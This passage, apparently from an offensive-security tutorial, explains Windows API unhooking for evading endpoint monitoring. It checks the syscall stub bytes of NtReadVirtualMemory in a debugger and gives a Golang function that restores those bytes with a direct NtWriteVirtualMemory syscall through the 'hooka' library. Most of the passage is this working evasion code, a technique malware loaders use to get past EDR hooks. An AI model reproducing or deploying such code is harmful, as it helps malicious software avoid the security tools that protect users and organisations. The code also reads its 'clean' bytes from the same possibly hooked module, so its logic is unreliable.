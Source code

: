 We add a breakpoint on the ***NtReadVirtualMemory*** function and continue the program execution. As you can see we hitted the breakpoint so we were right. In this case the syscall starting bytes are `4c 8b d1 b8` which means that the function isn't hooked but in a monitorized environment it would probably be

Let's move the explanation into Golang code

```go
func UnhookApi() (error) {
  // Get calls from dll
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  GetModuleHandle := kernel32.NewProc("GetModuleHandleW")
  GetProcAddress := kernel32.NewProc("GetProcAddress")

  // Define bytes array for original syscall bytes
  var assembly_bytes []byte

  ntdll_lib, _ := syscall.LoadLibrary("C:\\Windows\\System32\\ntdll.dll")
  defer syscall.FreeLibrary(ntdll_lib)

  procAddr, _ := syscall.GetProcAddress(ntdll_lib, "NtReadVirtualMemory")

  ptr_bytes := (*[1 << 30]byte)(unsafe.Pointer(procAddr))
  funcBytes := ptr_bytes[:5:5]

  for i := 0; i < 5; i++ {
    assembly_bytes = append(assembly_bytes, funcBytes[i])
  }

  pHandle, _, _ := GetCurrentProcess.Call()

  ntdll_ptr, _ := windows.UTF16PtrFromString("ntdll.dll")
  moduleHandle, _, _ := GetModuleHandle.Call(uintptr(unsafe.Pointer(ntdll_ptr)))

  funcname, _ := windows.UTF16PtrFromString("NtReadVirtualMemory")
  baseAddr, _, _ := GetProcAddress.Call(moduleHandle, uintptr(unsafe.Pointer(funcname)))

  // Get syscall
  NtWriteVirtualMemory, err := hooka.GetSysId("NtWriteVirtualMemory")
  if err != nil {
    return err
  }

  hooka.Syscall(
    NtWriteVirtualMemory,
    uintptr(pHandle),
    uintptr(baseAddr),
    uintptr(unsafe.Pointer(&assembly_bytes[0])),
    uintptr(len(assembly_bytes)),
    0,
  )

  return nil
}
```

